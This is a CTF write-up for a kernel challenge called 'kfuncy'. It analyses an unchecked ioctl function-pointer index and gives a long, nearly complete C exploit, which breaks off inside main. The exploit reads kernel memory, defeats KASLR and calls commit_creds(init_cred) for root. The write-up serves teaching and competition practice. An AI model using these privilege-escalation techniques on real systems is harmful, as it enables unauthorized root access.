

### Challenge Context

This write-up covers `kfuncy`, a kernel exploitation challenge from **C2C CTF 2026**, authored by **zafirr**. In the Indonesian binary-exploitation scene, zafirr is widely known as a very strong player, and that level of experience is reflected in the challenge design.

I found `kfuncy` interesting because it combines a relatively small attack surface with a direct exploitation path. The module looks simple at first glance, but the route from primitive to full privilege escalation is still instructive to analyze carefully.

### Initial Analysis

The challenge shipped a kernel module, `kfuncy.ko`, inside the provided root filesystem. There was no patch diff, so the first step was to extract the module and inspect it directly.

<figure><figcaption></figcaption></figure>

```bash
rm -rf _tmp_extract
mkdir -p _tmp_extract
cd _tmp_extract
gzip -dc ../rootfs.cpio.gz | cpio -id --quiet root/kfuncy.ko
```

After extracting the module, I checked the available symbols:

<figure><figcaption></figcaption></figure>

```bash
nm -n _tmp_extract/root/kfuncy.ko | grep -i kfuncy
```

Then I disassembled it:

<figure><figcaption></figcaption></figure>

```bash
objdump -dr _tmp_extract/root/kfuncy.ko > _tmp_extract/kfuncy.odr
```

The disassembly immediately showed the three routines that matter:

1. `kfuncy_write`
2. `kfuncy_read`
3. `kfuncy_ioctl`

Below is the relevant assembly as recovered during analysis:

```asm
_tmp_extract/root/kfuncy.ko:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <__pfx_kfuncy_write>:
   0:	90                   	nop
   1:	90                   	nop
   2:	90                   	nop
   3:	90                   	nop
   4:	90                   	nop
   5:	90                   	nop
   6:	90                   	nop
   7:	90                   	nop
   8:	90                   	nop
   9:	90                   	nop
   a:	90                   	nop
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
   f:	90                   	nop

0000000000000010 <kfuncy_write>:
  10:	f3 0f 1e fa          	endbr64 
  14:	ba 04 00 00 00       	mov    $0x4,%edx
  19:	48 c7 c6 00 00 00 00 	mov    $0x0,%rsi
			1c: R_X86_64_32S	.rodata.str1.1
  20:	e8 00 00 00 00       	call   25 <kfuncy_write+0x15>
			21: R_X86_64_PLT32	_copy_to_user-0x4
  25:	48 f7 d8             	neg    %rax
  28:	19 c0                	sbb    %eax,%eax
  2a:	83 e0 f2             	and    $0xfffffff2,%eax
  2d:	e9 00 00 00 00       	jmp    32 <kfuncy_write+0x22>
			2e: R_X86_64_PLT32	__x86_return_thunk-0x4
  32:	66 66 2e 0f 1f 84 00 	data16 cs nopw 0x0(%rax,%rax,1)
  39:	00 00 00 00 
  3d:	0f 1f 00             	nopl   (%rax)

0000000000000040 <__pfx_kfuncy_read>:
  40:	90                   	nop
  41:	90                   	nop
  42:	90                   	nop
  43:	90                   	nop
  44:	90                   	nop
  45:	90                   	nop
  46:	90                   	nop
  47:	90                   	nop
  48:	90                   	nop
  49:	90                   	nop
  4a:	90                   	nop
  4b:	90                   	nop
  4c:	90                   	nop
  4d:	90                   	nop
  4e:	90                   	nop
  4f:	90                   	nop

0000000000000050 <kfuncy_read>:
  50:	f3 0f 1e fa          	endbr64 
  54:	ba 08 00 00 00       	mov    $0x8,%edx
  59:	e8 00 00 00 00       	call   5e <kfuncy_read+0xe>
			5a: R_X86_64_PLT32	_copy_to_user-0x4
  5e:	48 f7 d8             	neg    %rax
  61:	19 c0                	sbb    %eax,%eax
  63:	83 e0 f2             	and    $0xfffffff2,%eax
  66:	e9 00 00 00 00       	jmp    6b <kfuncy_read+0x1b>
			67: R_X86_64_PLT32	__x86_return_thunk-0x4
  6b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)

0000000000000070 <__pfx_kfuncy_ioctl>:
  70:	90                   	nop
  71:	90                   	nop
  72:	90                   	nop
  73:	90                   	nop
  74:	90                   	nop
  75:	90                   	nop
  76:	90                   	nop
  77:	90                   	nop
  78:	90                   	nop
  79:	90                   	nop
  7a:	90                   	nop
  7b:	90                   	nop
  7c:	90                   	nop
  7d:	90                   	nop
  7e:	90                   	nop
  7f:	90                   	nop

0000000000000080 <kfuncy_ioctl>:
  80:	f3 0f 1e fa          	endbr64 
  84:	48 83 ec 30          	sub    $0x30,%rsp
  88:	48 89 d6             	mov    %rdx,%rsi
  8b:	ba 18 00 00 00       	mov    $0x18,%edx
  90:	65 48 8b 05 00 00 00 	mov    %gs:0x0(%rip),%rax        # 98 <kfuncy_ioctl+0x18>
  97:	00 
			94: R_X86_64_PC32	__ref_stack_chk_guard-0x4
  98:	48 89 44 24 28       	mov    %rax,0x28(%rsp)
  9d:	31 c0                	xor    %eax,%eax
  9f:	48 89 e7             	mov    %rsp,%rdi
  a2:	48 c7 04 24 00 00 00 	movq   $0x0,(%rsp)
  a9:	00 
  aa:	48 c7 44 24 08 00 00 	movq   $0x0,0x8(%rsp)
  b1:	00 00 
  b3:	48 c7 44 24 10 00 00 	movq   $0x0,0x10(%rsp)
  ba:	00 00 
  bc:	e8 00 00 00 00       	call   c1 <kfuncy_ioctl+0x41>
			bd: R_X86_64_PLT32	_copy_from_user-0x4
  c1:	48 85 c0             	test   %rax,%rax
  c4:	75 48                	jne    10e <kfuncy_ioctl+0x8e>
  c6:	48 c7 44 24 18 00 00 	movq   $0x0,0x18(%rsp)
  cd:	00 00 
			cb: R_X86_64_32S	.text+0x50
  cf:	48 63 44 24 10       	movslq 0x10(%rsp),%rax
  d4:	48 c7 44 24 20 00 00 	movq   $0x0,0x20(%rsp)
  db:	00 00 
			d9: R_X86_64_32S	.text+0x10
  dd:	85 c0                	test   %eax,%eax
  df:	78 36                	js     117 <kfuncy_ioctl+0x97>
  e1:	48 8b 44 c4 18       	mov    0x18(%rsp,%rax,8),%rax
  e6:	48 8b 74 24 08       	mov    0x8(%rsp),%rsi
  eb:	48 8b 3c 24          	mov    (%rsp),%rdi
  ef:	e8 00 00 00 00       	call   f4 <kfuncy_ioctl+0x74>
			f0: R_X86_64_PLT32	__x86_indirect_thunk_rax-0x4
  f4:	48 98                	cltq   
  f6:	48 8b 54 24 28       	mov    0x28(%rsp),%rdx
  fb:	65 48 2b 15 00 00 00 	sub    %gs:0x0(%rip),%rdx        # 103 <kfuncy_ioctl+0x83>
 102:	00 
			ff: R_X86_64_PC32	__ref_stack_chk_guard-0x4
 103:	75 1b                	jne    120 <kfuncy_ioctl+0xa0>
 105:	48 83 c4 30          	add    $0x30,%rsp
 109:	e9 00 00 00 00       	jmp    10e <kfuncy_ioctl+0x8e>
			10a: R_X86_64_PLT32	__x86_return_thunk-0x4
 10e:	48 c7 c0 f2 ff ff ff 	mov    $0xfffffffffffffff2,%rax
 115:	eb df                	jmp    f6 <kfuncy_ioctl+0x76>
 117:	48 c7 c0 ea ff ff ff 	mov    $0xffffffffffffffea,%rax
 11e:	eb d6                	jmp    f6 <kfuncy_ioctl+0x76>
 120:	e8 00 00 00 00       	call   125 <kfuncy_ioctl+0xa5>
			121: R_X86_64_PLT32	__stack_chk_fail-0x4

Disassembly of section .init.text:

0000000000000000 <__pfx_init_module>:
   0:	90                   	nop
   1:	90                   	nop
   2:	90                   	nop
   3:	90                   	nop
   4:	90                   	nop
   5:	90                   	nop
   6:	90                   	nop
   7:	90                   	nop
   8:	90                   	nop
   9:	90                   	nop
   a:	90                   	nop
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
   f:	90                   	nop

0000000000000010 <init_module>:
  10:	f3 0f 1e fa          	endbr64 
  14:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
			17: R_X86_64_32S	.data
  1b:	e9 00 00 00 00       	jmp    20 <_note_18+0x8>
			1c: R_X86_64_PLT32	misc_register-0x4

Disassembly of section .exit.text:

0000000000000000 <__pfx_cleanup_module>:
   0:	90                   	nop
   1:	90                   	nop
   2:	90                   	nop
   3:	90                   	nop
   4:	90                   	nop
   5:	90                   	nop
   6:	90                   	nop
   7:	90                   	nop
   8:	90                   	nop
   9:	90                   	nop
   a:	90                   	nop
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
   f:	90                   	nop

0000000000000010 <cleanup_module>:
  10:	f3 0f 1e fa          	endbr64 
  14:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
			17: R_X86_64_32S	.data
  1b:	e9 00 00 00 00       	jmp    20 <_note_18+0x8>
			1c: R_X86_64_PLT32	misc_deregister-0x4
```

### Reconstructing the Interface

To make the behavior easier to reason about, I rewrote the relevant logic in C-like form:

```c
static long kfuncy_ioctl(struct file *f, unsigned long request, unsigned long user_ptr) {
    uint64_t a0 = 0;   // [rsp+0x00]
    uint64_t a1 = 0;   // [rsp+0x08]
    uint64_t a2 = 0;   // [rsp+0x10]

    if (copy_from_user(&a0, (void __user *)user_ptr, 0x18))
        return -EFAULT;

    long (*table[])(uint64_t, uint64_t) = {
        kfuncy_read,   // [rsp+0x18]
        kfuncy_write   // [rsp+0x20]
    };

    int idx = (int32_t)a2;
    if (idx < 0)
        return -EINVAL;

    return table[idx](a0, a1);
}
```

And the two helper routines:

```c
static long kfuncy_read(uint64_t user_dst, uint64_t kernel_src) {
    return copy_to_user((void __user *)user_dst, (void *)kernel_src, 8) ? -EFAULT : 0;
}

static long kfuncy_write(uint64_t kernel_dst, uint64_t user_src) {
    return copy_from_user((void *)kernel_dst, (void __user *)user_src, 4) ? -EFAULT : 0;
}
```

At this point, it is worth slowing down and reading the reconstructed code carefully, because this is the point where the entire challenge effectively becomes understandable.

The `ioctl` handler first allocates `0x30` bytes of stack space. Inside that stack frame, the first 24 bytes are treated as three attacker-controlled 64-bit values:

1. `a0` at `[rsp+0x00]`
2. `a1` at `[rsp+0x08]`
3. `a2` at `[rsp+0x10]`

Those values are filled in one shot through:

```c
copy_from_user(&a0, (void __user *)user_ptr, 0x18)
```

In other words, the challenge expects userland to pass a pointer to a 24-byte structure, and the kernel copies that structure directly onto the stack.

Immediately after those three values, the function places a local table of function pointers on the same stack frame:

1. `table[0] = kfuncy_read` at `[rsp+0x18]`
2. `table[1] = kfuncy_write` at `[rsp+0x20]`

That stack layout is the most important observation in the challenge. It means the user controls the first part of the frame, and the kernel places a function-pointer table immediately after it.

The call sequence then becomes:

```c
int idx = (int32_t)a2;
return table[idx](a0, a1);
```

This line deserves a precise reading.

First, `a2` is cast to a signed 32-bit integer. That means only the low 32 bits are used for the index, and the challenge explicitly rejects negative values:

```c
if (idx < 0)
    return -EINVAL;
```

However, that check only prevents indexing below the beginning of the table. It does **not** prevent indexing beyond the end of the table. Since the table only has two legitimate entries, the only safe values are:

1. `idx = 0`
2. `idx = 1`

Any larger value walks past `kfuncy_read` and `kfuncy_write` and starts interpreting whatever happens to be stored further up the stack as another function pointer.

That is the core memory-safety issue: this is not merely an out-of-bounds read of passive data, but an out-of-bounds **function-pointer lookup** followed immediately by an indirect call.

The helper routines explain why this matters so much.

`kfuncy_read` is:

```c
static long kfuncy_read(uint64_t user_dst, uint64_t kernel_src) {
    return copy_to_user((void __user *)user_dst, (void *)kernel_src, 8) ? -EFAULT : 0;
}
```

This means:

1. `user_dst` is treated as a userland pointer.
2. `kernel_src` is treated as a kernel address.
3. The function copies 8 bytes from kernel memory into user memory.

So if the module calls `kfuncy_read(a0, a1)`, userland gets a controlled 8-byte kernel read primitive.

Likewise, `kfuncy_write` is:

```c
static long kfuncy_write(uint64_t kernel_dst, uint64_t user_src) {
    return copy_from_user((void *)kernel_dst, (void __user *)user_src, 4) ? -EFAULT : 0;
}
```

This means:

1. `kernel_dst` is treated as a writable kernel address.
2. `user_src` is treated as a userland pointer.
3. The function copies 4 bytes from user memory into kernel memory.

So when the table resolves to `kfuncy_write`, the primitive changes from reading kernel memory to performing a controlled 4-byte write into kernel space.

That dual behavior is what makes the reconstructed pseudocode so revealing. The challenge is not built around a hidden or obscure corruption gadget. It is built around an explicit function-pointer dispatch mechanism where:

1. the arguments are attacker-controlled,
2. the selector is attacker-controlled,
3. the table lives on the stack,
4. and the selector is only checked on one side.

Once that is recognized, the exploitation direction becomes much clearer. With `idx = 0`, the challenge already gives a usable kernel-read primitive. With larger indices, the same dispatch site can be coerced into calling pointers that were never intended to be reachable through the table at all.

This already exposes the bug in a precise form:

1. `idx` is fully attacker-controlled.
2. Negative indices are rejected.
3. There is no upper-bound check.

That means the function-pointer table can be indexed out of bounds, and because the result is invoked as a function, the bug is immediately control-flow relevant rather than merely informational.

### What the Primitive Gives

If we select `idx = 0`, the module invokes `kfuncy_read`, which immediately yields an 8-byte kernel read primitive:

```c
args.a0 = user_buffer_ptr;
args.a1 = kernel_address;
args.a2 = 0; // select kfuncy_read
ioctl(fd, request_any, &args);
```

Once that primitive exists, the rest of the challenge becomes a matter of turning information disclosure into control-flow redirection.

### Why the Out-of-Bounds Index Matters

The out-of-bounds lookup does not need to land on a legitimate `table[]` entry. It only needs to land on a stack slot that already contains a meaningful pointer.

In this kernel and module build, the useful slot aliases `pt_regs->si`, which means the `ioctl` request argument itself can be repurposed as the indirect call target.

That turns the final step into a compact plan:

1. Put the runtime address of `commit_creds` into the `ioctl` request value.
2. Put the runtime address of `init_cred` into `a0`, which becomes the first argument.
3. Use the out-of-bounds index that reaches the saved `pt_regs->si` slot.

In effect, the module is coerced into doing:

```c
commit_creds(init_cred);
```

### Solution Strategy

At a high level, the solution is built around one observation: the challenge already gives a strong primitive as soon as `idx = 0` is selected. Once that primitive exists, the remaining task is to convert information disclosure into a single, well-placed indirect call.

The approach can be broken down into three main stages.

1. **Recover the runtime kernel base address to bypass KASLR.**

   The read primitive lets us inspect arbitrary kernel memory 8 bytes at a time. That is enough to brute-force plausible 2 MB KASLR slides starting from the canonical link-time base `0xffffffff81000000` and compare the contents against a known `.text` header signature:

   ```c
   static uint64_t find_kernel_base(void) {
       const uint64_t max_slide = 0x40000000ULL;
       uint8_t got[16];

       for (uint64_t slide = 0; slide <= max_slide; slide += 0x200000ULL) {
           uint64_t cand = KERNEL_LINK_BASE + slide;
           if (!kread_bytes(0, cand, got, sizeof(got))) {
               continue;
           }
           if (memcmp(got, KTEXT_HDR, sizeof(got)) == 0) {
               return cand;
           }
       }
       return 0;
   }
   ```

   This works because the kernel text image preserves recognizable bytes at the beginning of the mapped text region, and the challenge already allows controlled reads from kernel memory.

2. **Convert link-time symbols into runtime addresses.**

   Once `kbase` is known, symbol resolution becomes straightforward. Each relevant symbol can be translated from its link-time address to its runtime address using:

   ```c
   runtime = kbase + (sym_link - KERNEL_LINK_BASE)
   ```

   In particular, the two addresses that matter most are:

   1. `commit_creds_runtime`
   2. `init_cred_runtime`

   The exploit needs these because the final goal is to force the kernel to execute:

   ```c
   commit_creds(init_cred);
   ```

3. **Turn the unchecked function-pointer selection into a direct call to `commit_creds`.**

   The challenge hint says:

   > Gain root with just a single function pointer.

   That is exactly what the final step does.

   The relevant facts are:

   1. The function pointer is fetched from the stack using an attacker-controlled out-of-bounds index.
   2. The `ioctl` syscall `request` argument is saved in `pt_regs->si`.
   3. On this kernel/module build, the out-of-bounds slot that aliases `pt_regs->si` is stable at `idx = 29`.

   Once that is known, the final trigger becomes very small:

   1. Set the `ioctl` request value to `commit_creds_runtime`.
   2. Set the controlled argument structure so that:
      1. `a0 = init_cred_runtime`
      2. `a1 = 0`
      3. `a2 = 29`
   3. Let the module perform its indirect function-pointer call.

   At that point, the out-of-bounds stack lookup resolves to the saved `request` register state, so the indirect call effectively becomes:

   ```c
   commit_creds_runtime(init_cred_runtime);
   ```

   In other words, the module is not merely reading an invalid function pointer. It is accidentally reinterpreting a useful stack slot as a call target, and userland controls both the target and the first argument.

Putting the entire flow together, the exploit path is:

1. Open `/dev/kfuncy`.
2. Use `kfuncy_read` to find `kbase`.
3. Resolve `init_cred` and `commit_creds`.
4. Trigger the single-pointer out-of-bounds call with `idx = 29`.
5. Verify that `getuid() == 0`.
6. Read the flag source from `/dev/sda`.

### Full Exploit Script

Below is the full exploit implementation used for the challenge.

`exploit.c`

```c
#define _GNU_SOURCE
#include <errno.h>
#include <fcntl.h>
#include <inttypes.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

typedef struct {
    uint64_t a0;
    uint64_t a1;
    uint64_t a2;
} kfuncy_args_t;

static const uint64_t KERNEL_LINK_BASE = 0xffffffff81000000ULL;

// vmlinux .text[0:16] bytes at link-time base (from kfuncy/_bz/_bzImage.extracted/52C4 offset 0x200000).
static const uint8_t KTEXT_HDR[16] = {
    0x66, 0x90, 0x0f, 0xae, 0xe8, 0xe9, 0x01, 0x41,
    0x10, 0x00, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc, 0xcc,
};

// Exported symbol link-time addresses (from __ksymtab parsing).
static const uint64_t SYM_commit_creds = 0xffffffff812c9a70ULL;
static const uint64_t SYM_init_task = 0xffffffff82c0e940ULL;
static const uint64_t SYM_init_cred = 0xffffffff82c55480ULL;
static const uint64_t SYM_cpu_tss_rw = 0xffffffff8371e000ULL;
static const uint64_t SYM___per_cpu_offset = 0xffffffff82a77c40ULL;
static const uint64_t SYM_current_task = 0xffffffff8372d018ULL;
// Link-time start of the percpu section (.data..percpu) from vmlinux section headers.
static const uint64_t PERCPU_LINK_BASE = 0xffffffff83719000ULL;
// Link-time .data range from vmlinux section headers.
static const uint64_t DATA_LINK_START = 0xffffffff82c00000ULL;
static const uint64_t DATA_LINK_SIZE = 0x002d4f80ULL;

static const uint8_t KFUNCY_READ_PREFIX[8]  = {0xf3, 0x0f, 0x1e, 0xfa, 0xba, 0x08, 0x00, 0x00};
static const uint8_t KFUNCY_WRITE_PREFIX[8] = {0xf3, 0x0f, 0x1e, 0xfa, 0xba, 0x04, 0x00, 0x00};
static const uint32_t IDX_PT_REGS_SI = 29;

static int g_fd = -1;

static bool do_ioctl(unsigned long req, kfuncy_args_t *args) {
    if (ioctl(g_fd, req, args) == 0) {
        return true;
    }
    return false;
}

static bool kread64(unsigned long req, uint64_t kaddr, uint64_t *out) {
    *out = 0;
    kfuncy_args_t a;
    a.a0 = (uint64_t)(uintptr_t)out;
    a.a1 = kaddr;
    a.a2 = 0; // idx=0 => kfuncy_read => copy_to_user(a0, a1, 8)
    if (!do_ioctl(req, &a)) {
        return false;
    }
    return true;
}

static bool kread_bytes(unsigned long req, uint64_t kaddr, uint8_t *buf, size_t n) {
    size_t i = 0;
    while (i < n) {
        uint64_t q = 0;
        if (!kread64(req, kaddr + i, &q)) {
            return false;
        }
        size_t take = (n - i) < 8 ? (n - i) : 8;
        memcpy(buf + i, &q, take);
        i += take;
    }
    return true;
}

static bool is_canonical_kernel_ptr(uint64_t x) {
    return (x >> 48) == 0xffffULL;
}

static uint64_t find_kernel_base(void) {
    const uint64_t max_slide = 0x40000000ULL;
    uint8_t got[16];

    for (uint64_t slide = 0; slide <= max_slide; slide += 0x200000ULL) {
        uint64_t cand = KERNEL_LINK_BASE + slide;
        if (!kread_bytes(0, cand, got, sizeof(got))) {
            continue;
        }
        if (memcmp(got, KTEXT_HDR, sizeof(got)) == 0) {
            return cand;
        }
    }
    return 0;
}

static uint64_t sym_runtime(uint64_t kbase, uint64_t sym_link) {
    return kbase + (sym_link - KERNEL_LINK_BASE);
}

static void dump_kbytes(uint64_t kaddr, size_t n) {
    uint8_t *b = calloc(1, n);
    if (!b) return;
    if (!kread_bytes(0, kaddr, b, n)) {
        dprintf(STDERR_FILENO, "dump_kbytes: kread failed at 0x%016" PRIx64 "\n", kaddr);
        free(b);
        return;
    }
    dprintf(STDERR_FILENO, "dump 0x%016" PRIx64 " (%zu bytes):\n", kaddr, n);
    for (size_t i = 0; i < n; i++) {
        dprintf(STDERR_FILENO, "%02x", b[i]);
        if ((i % 16) == 15 || i + 1 == n) dprintf(STDERR_FILENO, "\n");
        else dprintf(STDERR_FILENO, " ");
    }
    free(b);
}

static uint64_t get_percpu_off0(uint64_t kbase) {
    uint64_t addr = sym_runtime(kbase, SYM___per_cpu_offset);
    uint64_t off0 = 0;
    if (!kread64(0, addr, &off0)) {
        if (getenv("KFUNCY_DUMP")) {
            dprintf(STDERR_FILENO, "__per_cpu_offset read failed at 0x%016" PRIx64 "\n", addr);
        }
        return 0;
    }
    if (getenv("KFUNCY_DUMP")) {
        dprintf(STDERR_FILENO, "__per_cpu_offset[0] @0x%016" PRIx64 " = 0x%016" PRIx64 "\n", addr, off0);
    }
    return off0;
}

static bool read_current_task(uint64_t kbase, uint64_t *out_task) {
    uint64_t cur_sym = sym_runtime(kbase, SYM_current_task);
    uint64_t off0 = get_percpu_off0(kbase);
    uint64_t cur_task_addr = cur_sym + off0;
    uint64_t cur = 0;
    if (getenv("KFUNCY_DUMP")) {
        dprintf(STDERR_FILENO,
                "current_task debug: cur_sym=0x%016" PRIx64 " off0=0x%016" PRIx64
                " addr=0x%016" PRIx64 "\n",
                cur_sym, off0, cur_task_addr);
    }
    if (!kread64(0, cur_task_addr, &cur)) {
        if (getenv("KFUNCY_DUMP")) {
            dprintf(STDERR_FILENO,
                    "current_task read failed: cur_sym=0x%016" PRIx64 " off0=0x%016" PRIx64
                    " addr=0x%016" PRIx64 "\n",
                    cur_sym, off0, cur_task_addr);
        }
        return false;
    }
    if (getenv("KFUNCY_DUMP")) {
        dprintf(STDERR_FILENO, "current_task value: 0x%016" PRIx64 "\n", cur);
    }
    if (!is_canonical_kernel_ptr(cur)) {
        if (getenv("KFUNCY_DUMP")) {
            dprintf(STDERR_FILENO,
                    "current_task not canonical: cur_sym=0x%016" PRIx64 " off0=0x%016" PRIx64
                    " addr=0x%016" PRIx64 " val=0x%016" PRIx64 "\n",
                    cur_sym, off0, cur_task_addr, cur);
        }
        return false;
    }
    *out_task = cur;
    return true;
}

static bool find_kfuncy_frame(uint64_t sp0, uint64_t *out_rsp0);

static bool find_sp0_and_frame(uint64_t task, uint64_t *out_sp0, uint64_t *out_rsp0) {
    const uint64_t scan = 0x4000;
    for (uint64_t off = 0; off + 8 <= scan; off += 8) {
        uint64_t base = 0;
        if (!kread64(0, task + off, &base)) {
            continue;
        }
        if (!is_canonical_kernel_ptr(base) || (base & 0xfffULL) != 0) {
            continue;
        }
        uint64_t sp0 = base + 0x4000ULL;
        uint64_t rsp0 = 0;
        if (find_kfuncy_frame(sp0, &rsp0)) {
            *out_sp0 = sp0;
            *out_rsp0 = rsp0;
            return true;
        }
    }
    return false;
}

static uint64_t read_sp0(uint64_t kbase) {
    uint64_t per_cpu_off_addr = sym_runtime(kbase, SYM___per_cpu_offset);
    uint64_t per_cpu_off0 = get_percpu_off0(kbase);
    bool ok_off = true;
    uint64_t cpu_tss = sym_runtime(kbase, SYM_cpu_tss_rw) + per_cpu_off0;

    uint64_t sp0 = 0;

    if (kread64(0, cpu_tss + 8, &sp0) && is_canonical_kernel_ptr(sp0)) {
        return sp0;
    }

    uint64_t q0 = 0, q1 = 0;
    if (kread64(0, cpu_tss + 0, &q0) && kread64(0, cpu_tss + 8, &q1)) {
        uint64_t sp0_packed = ((uint64_t)(uint32_t)q1 << 32) | (uint64_t)(uint32_t)(q0 >> 32);
        if (is_canonical_kernel_ptr(sp0_packed)) {
            return sp0_packed;
        }
    }

    for (uint64_t off = 0; off < 0x200; off += 8) {
        if (!kread64(0, cpu_tss + off, &sp0)) {
            continue;
        }
        if (is_canonical_kernel_ptr(sp0) && (sp0 & 0xfffULL) == 0) {
            return sp0;
        }
    }

    uint64_t dump[8] = {0};
    int dump_ok[8] = {0};
    for (int i = 0; i < 8; i++) {
        dump_ok[i] = kread64(0, cpu_tss + (uint64_t)i * 8, &dump[i]) ? 1 : 0;
    }
    dprintf(STDERR_FILENO,
            "cpu_tss_rw: kbase=0x%016" PRIx64 " per_cpu_off_addr=0x%016" PRIx64
            " ok=%d per_cpu_off0=0x%016" PRIx64 " cpu_tss=0x%016" PRIx64 "\n"
            "tss_ok[0..7]=%d %d %d %d %d %d %d %d\n"
            "tss[0..7]=%016" PRIx64 " %016" PRIx64 " %016" PRIx64 " %016" PRIx64
            " %016" PRIx64 " %016" PRIx64 " %016" PRIx64 " %016" PRIx64 "\n",
            kbase, per_cpu_off_addr, ok_off ? 1 : 0, per_cpu_off0, cpu_tss,
            dump_ok[0], dump_ok[1], dump_ok[2], dump_ok[3], dump_ok[4], dump_ok[5], dump_ok[6], dump_ok[7],
            dump[0], dump[1], dump[2], dump[3], dump[4], dump[5], dump[6], dump[7]);
    return 0;
}

static bool read8_at(uint64_t kaddr, uint8_t out8[8]) {
    uint64_t q = 0;
    if (!kread64(0, kaddr, &q)) {
        return false;
    }
    memcpy(out8, &q, 8);
    return true;
}

static bool ptr_points_to_prefix(uint64_t ptr, const uint8_t pref8[8]) {
    uint8_t got[8];
    if (!read8_at(ptr, got)) {
        return false;
    }
    return memcmp(got, pref8, 8) == 0;
}

static bool find_kfuncy_frame(uint64_t sp0, uint64_t *out_rsp0) {
    uint64_t start = sp0 - 0x4000ULL;
    uint64_t end = sp0;

    for (uint64_t a = start; a + 8 <= end; a += 8) {
        uint64_t v = 0;
        if (!kread64(0, a, &v)) {
            continue;
        }
        if (!is_canonical_kernel_ptr(v)) {
            continue;
        }
        if (!ptr_points_to_prefix(v, KFUNCY_READ_PREFIX)) {
            continue;
        }

        uint64_t v2 = 0;
        if (kread64(0, a + 8, &v2) && is_canonical_kernel_ptr(v2) && ptr_points_to_prefix(v2, KFUNCY_WRITE_PREFIX)) {
            *out_rsp0 = a - 0x18ULL;
            return true;
        }

        *out_rsp0 = a - 0x18ULL;
        return true;
    }

    return false;
}

static bool find_init_cred_ptr(uint64_t kbase, uint64_t *out_cred) {
    uint64_t init_task = sym_runtime(kbase, SYM_init_task);

    uint64_t data_rt_start = kbase + (DATA_LINK_START - KERNEL_LINK_BASE);
    uint64_t data_rt_end = data_rt_start + DATA_LINK_SIZE;

    typedef struct {
        uint64_t ptr;
        int count;
    } cand_t;
    cand_t cands[1024];
    size_t nc = 0;

    const size_t scan = 0x8000;
    for (size_t off = 0; off + 8 <= scan; off += 8) {
        uint64_t p = 0;
        if (!kread64(0, init_task + off, &p)) {
            continue;
        }
        if (!is_canonical_kernel_ptr(p) || (p & 7ULL) != 0) {
            continue;
        }
        if (!(data_rt_start <= p && p < data_rt_end)) {
            continue;
        }
        bool found = false;
        for (size_t i = 0; i < nc; i++) {
            if (cands[i].ptr == p) {
                cands[i].count++;
                found = true;
                break;
            }
        }
        if (!found && nc < (sizeof(cands) / sizeof(cands[0]))) {
            cands[nc++] = (cand_t){.ptr = p, .count = 1};
        }
    }

    for (size_t i = 0; i < nc; i++) {
        if (cands[i].count < 2) {
            continue;
        }
        uint64_t q0 = 0, q1 = 0;
        if (!kread64(0, cands[i].ptr + 0, &q0) || !kread64(0, cands[i].ptr + 8, &q1)) {
            continue;
        }

        if (q0 == cands[i].ptr && q1 == cands[i].ptr) {
            continue;
        }

        if (is_canonical_kernel_ptr(q0) || is_canonical_kernel_ptr(q1)) {
            continue;
        }

        *out_cred = cands[i].ptr;
        return true;
    }

    return false;
}

static bool call_kernel_fn(uint64_t rsp0, uint64_t sp0, unsigned long req_fn, uint64_t arg0) {
    uint64_t pt_si = sp0 - 0x40ULL;
    int64_t idx = (int64_t)((pt_si - (rsp0 + 0x18ULL)) / 8ULL);
    if (getenv("KFUNCY_DUMP")) {
        dprintf(STDERR_FILENO,
                "call_kernel_fn: sp0=0x%016" PRIx64 " rsp0=0x%016" PRIx64
                " sp0-rsp0=0x%llx idx=%lld\n",
                sp0, rsp0, (unsigned long long)(sp0 - rsp0), (long long)idx);
    }
    if (idx < 0 || idx > 0x7fffffffLL) {
        return false;
    }

    kfuncy_args_t a;
    a.a0 = arg0;   // rdi
    a.a1 = 0;      // rsi
    a.a2 = (uint64_t)(uint32_t)idx;

    return do_ioctl(req_fn, &a);
}

static void read_flag(void) {
    int fd = open("/dev/sda", O_RDONLY);
    if (fd < 0) {
        perror("open(/dev/sda)");
        return;
    }
    char buf[128];
    ssize_t n = read(fd, buf, sizeof(buf) - 1);
    if (n < 0) {
        perror("read(/dev/sda)");
        close(fd);
        return;
    }
    buf[n] = 0;
    write(STDOUT_FILENO, buf, (size_t)n);
    write(STDOUT_FILENO, "\n", 1);
    close(fd);
}

int main(void) {
    g_fd = open("/dev/kfuncy", O_RDONLY);
    if (g_fd < 0) {
        perror("open(/dev/kfuncy)");
        return 1;
    }

    uint64_t kbase = find_kernel_base();
    if (!kbase) {
        fprintf(stderr, "failed to find kernel base\n");
        return 1;
    }
    if (getenv("KFUNCY_DUMP")) {
        dprintf(STDERR_FILENO, "kbase=0x%016" PRIx64 "\n", kbase);
        dump_kbytes(kbase, 96);
    }

    uint64_t init_cred = 0;
    init_cred = sym_runtime(kbase, SYM_init_cred);

